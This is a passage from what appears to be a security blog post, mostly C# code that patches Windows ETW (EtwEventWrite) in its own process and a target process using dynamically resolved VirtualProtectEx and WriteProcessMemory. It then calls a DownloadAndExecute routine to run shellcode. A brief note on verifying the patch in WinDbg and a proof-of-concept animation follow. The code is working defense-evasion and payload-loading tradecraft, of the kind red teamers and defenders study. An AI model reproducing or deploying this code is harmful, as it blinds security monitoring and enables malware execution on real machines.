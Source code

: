 ```
            Console.WriteLine("[*] ----- Patching ETW ----- [*]");
            int targetProcessId = GetProcId(args);
            Process targetProcess = Process.GetProcessById(targetProcessId);
            IntPtr targetProcessHandle = targetProcess.Handle;

            // Load the functions from kernel32.dll
            IntPtr vpeAddress = GetLibraryAddress("kernel32.dll", "VirtualProtectEx");
            IntPtr wpmAddress = GetLibraryAddress("kernel32.dll", "WriteProcessMemory");

            var VirtualProtectEx = (VirtualProtectExDelegate)Marshal.GetDelegateForFunctionPointer(vpeAddress, typeof(VirtualProtectExDelegate));
            var WriteProcessMemory = (WriteProcessMemoryDelegate)Marshal.GetDelegateForFunctionPointer(wpmAddress, typeof(WriteProcessMemoryDelegate));

            // Patch the ETW
            IntPtr currentNtdllBaseAddress = GetRemoteNtdllBaseAddress(Process.GetCurrentProcess());
            PatchEtw(Process.GetCurrentProcess().Handle, currentNtdllBaseAddress);
            IntPtr remoteNtdllBaseAddress = GetRemoteNtdllBaseAddress(targetProcess);
            PatchEtw(targetProcessHandle, remoteNtdllBaseAddress);

            Console.WriteLine("[*] ETW patching complete.");

            // Download and execute the shellcode
            Console.WriteLine("[*] ----- Starting Download and Execute Process ----- [*]");

            // Enter to execute the shellcode
            Console.WriteLine("Press Enter to execute the shellcode...");
            Console.ReadLine();

            DownloadAndExecute();
        }

        private delegate bool VirtualProtectExDelegate(IntPtr hProcess, IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        private delegate bool WriteProcessMemoryDelegate(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out int lpNumberOfBytesWritten);
    }
}
```

By examining the address of `EtwEventWrite` in WinDbg, we can confirm that the patch was successfully applied, causing the function to return immediately without being executed.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-06-30_17_14_31.png" alt="">

**POC**

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-06-30-17-57-28.gif" alt="">

Conclusion
---
